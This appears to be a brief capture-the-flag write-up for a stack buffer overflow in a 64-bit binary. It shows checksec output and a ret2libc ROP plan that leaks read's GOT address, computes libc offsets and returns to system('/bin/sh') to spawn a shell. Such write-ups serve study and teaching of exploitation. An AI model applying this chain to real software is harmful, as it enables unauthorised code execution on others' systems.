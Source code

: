 **Read source code**
- `read(0, buf, 0x400);`: bufferoverflow => ROP
- Stack
```
buf (rbp - 0x40)
rdi -> 1
rsi -> read_got
r15 -> 0
write_plt
main
---
rdi -> binsh
system
```
- `Checksec` in gdb
```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x3fe000)
RUNPATH:    b'.'
Stripped:   No
```
- So the idea is that use gadget to change the execution flow of a program without injecting new code.
---  
***EPLOIT***
```
write(1, read_got,)
main
system("/bin/sh")
```
- Get address of read_got by `write(1, read_got,)`
- Calculate `libc_base = read - read_offset`
- Calculate `system = libc_base + system_offset`
- Calculate `binsh = libc_base + binsh_offset`
- Return to main then ret `system("/bin/sh")`
